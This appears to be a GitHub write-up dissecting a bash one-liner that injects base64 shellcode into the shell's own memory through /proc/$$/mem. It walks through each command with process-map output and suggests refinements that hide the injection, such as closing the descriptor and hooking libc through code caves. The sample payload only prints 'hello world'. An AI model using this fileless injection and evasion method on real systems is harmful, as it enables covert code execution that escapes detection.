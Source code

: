 ### Bash shellcode injection oneliner

I saw this trick from David Buchanan twitter (https://twitter.com/David3141593)

![trick](./pics/trick.png)



so that's it:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
```

that's an interesting trick to inject a shellcode (encoded in base64 directly into the bash parent process memory)

It's an interesting trick because, you can inject a shellcode in another process, without creating another process, and without touching the disk of course, fileless.. that's not really new, but a clever trick

let's analyze it to see how it works (and after, improve it a bit...)

* #### first

  `cd /proc/$$;`

  well that actually goes in the /proc directory of the parent process, the `$$` symbol is bash symbol for parent process.

  The parent process is `bash` probably , or any shell you use. 

* #### second

  `read a<syscall`

  well, that's one read the `/proc/$$/syscall` entry into the variable `a`

  but what is `/proc/pid/syscall` ? (humm good question..)

![syscall](./pics/syscall.png)

On Ubuntu default security settings, you can not read another process `/proc/pid/syscall` entry, but as `read` is an internal bash command, it will work as it is bash reading his own `/proc/pid/syscall` entry

let's try it:

```bash
$ echo $$
1935387
$ read a</proc/$$/syscall
$ echo $a
0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992
$ cat /proc/1935387/maps
55917cfd6000-55917d005000 r--p 00000000 00:1b 1526224                    /usr/bin/bash
55917d005000-55917d0e4000 r-xp 0002f000 00:1b 1526224                    /usr/bin/bash
55917d0e4000-55917d11e000 r--p 0010e000 00:1b 1526224                    /usr/bin/bash
55917d11f000-55917d123000 r--p 00148000 00:1b 1526224                    /usr/bin/bash
55917d123000-55917d12c000 rw-p 0014c000 00:1b 1526224                    /usr/bin/bash
55917d12c000-55917d137000 rw-p 00000000 00:00 0 
55917dc8d000-55917de9e000 rw-p 00000000 00:00 0                          [heap]
7f8061f97000-7f8062aaf000 r--p 00000000 00:1b 2356892                    /usr/lib/locale/locale-archive
7f8062aaf000-7f8062ab2000 rw-p 00000000 00:00 0 
7f8062ab2000-7f8062ada000 r--p 00000000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ada000-7f8062c6f000 r-xp 00028000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062c6f000-7f8062cc7000 r--p 001bd000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062cc7000-7f8062ccb000 r--p 00214000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccb000-7f8062ccd000 rw-p 00218000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccd000-7f8062cda000 rw-p 00000000 00:00 0 
7f8062cda000-7f8062ce8000 r--p 00000000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062ce8000-7f8062cf9000 r-xp 0000e000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062cf9000-7f8062d07000 r--p 0001f000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d07000-7f8062d0b000 r--p 0002c000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d0b000-7f8062d0c000 rw-p 00030000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d3a000-7f8062d41000 r--s 00000000 00:1b 547276                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8062d41000-7f8062d43000 rw-p 00000000 00:00 0 
7f8062d43000-7f8062d45000 r--p 00000000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d45000-7f8062d6f000 r-xp 00002000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d6f000-7f8062d7a000 r--p 0002c000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7b000-7f8062d7d000 r--p 00037000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7d000-7f8062d7f000 rw-p 00039000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffcc912000-7fffcc934000 rw-p 00000000 00:00 0                          [stack]
7fffcc9f8000-7fffcc9fc000 r--p 00000000 00:00 0                          [vvar]
7fffcc9fc000-7fffcc9fe000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

```

as you can see in the example above,

`/proc/pid/syscall` contains that string:

`0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992`

if we read manual above, it means last syscall was number 0 , it is `read()` syscall, with args:

* 0 --> filedescriptor (`rdi` register)
* 0x55917d134260  -->  address (`rsi` register)

* 0x1000 --> length  (`rdx` register)

then they are the 3 others arguments , that are not used by `read()` which take only 3 arguments,

then:

* 0x7fffcc931228 --> stack value
* 0x7f8062bc6992 --> address of the syscall



**Well what all this means?**

well it's probably the `read` syscall , of libc `read()` function, as we can see in the `/proc/pid/maps` output , that 0x7f8062bc6992 is mapped in libc at offset 0x114992 from libc's start. If we check in GDB we can confirm that it is the syscall from `__GI___libc_read+16` libc internal function:

![libc](./pics/libc.png)

`__GI___libc_read+18` is the address next to the sycall , that is return in `/proc/pid/syscall`, by read `read a<syscall`



* #### third

`exec 3>mem`

that is an internal command from bash too, let's see his manual:

this command open `/proc/$$/mem` for writing on filedescriptor 3.

so everything written to filedescriptor 3, will be written directly in bash process memory

![exec](./pics/exec.png)

*`exec` can be used in many other ways too, to change argv0 for example, but we will just concentrate on his usage on filedescriptors*



* #### fourth

```base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3```



ok , now that the filedescriptor 3 points to bash process memory, we can write into the process memory, we just need to seek into `/proc/$$/mem` to reach a known address, we will use the syscall address returned by `/proc/$$/syscall` that we stored before in `a` variable, to write directly into libc `__GI___libc_read()` function.. (yes, with `/proc/$$/mem` you can even write in non writable zone..like in libc exec zone)

we encode our shellcode in base64, and write it at this position, like this as soon as bash, will call `read()` libc function (which is quite often), it will execute our shellcode... but `read()` function will be pretty well destroyed for bash next calls to it.. 

our shellcode take over anyway..

* #### improvements

well that works, but even if you inject your shellcode directly in a process memory (bash in this case), even fileless, it leaves some supect traces... let's give it a try..

my example above inject a "hello world" shellcode, and goes in an endless loop, let's look at filedescriptors of the bash process after injection:

![](./pics/procfd.png)

well you see, that filedescriptor 3 is left open, and that's suspicious.

so first improvement is closing the fd just after writing:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3;exec 3>&-
```

by adding `exec 3>&-` we closed the filedescriptor after using it..


now there is the problem that bash is left unusable, as the shellcode basically "hijacked" the code execution...

as the `read a<syscall` give a pretty consistent return to a known offset in libc, what we can do is patching at another place in libc.

for example, if you look at the `__GI___libc_read()` function disassembly above, you can see that at `__GI___libc_read+106` there is a `ret` followed by some `nop`instruction padding, for alignement process..

this ret is at offset +88, after the address return by `read a<syscall`, we can write to it like this for example:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`+88]>&3;exec 3>&-
```

so to ameliorate the method,

we could first write our shellcode to an unused place in libc in the executable zone (there are many code caves as they are called in libc) 

then do a second write to patch for example the `ret` and replace it with a `jmp` that will jump to our shellcode at the end of the function, and will return normally after..

like this bash will continue to function normally, and our shellcode will be called each time a `read()` is called by bash (which is pretty often off course...)

this is left as an exercise for the most motivated ;)

* #### Conclusion

It's a nice process injection method, totally invisible if done correctly..and you can do it only with a bash oneliner

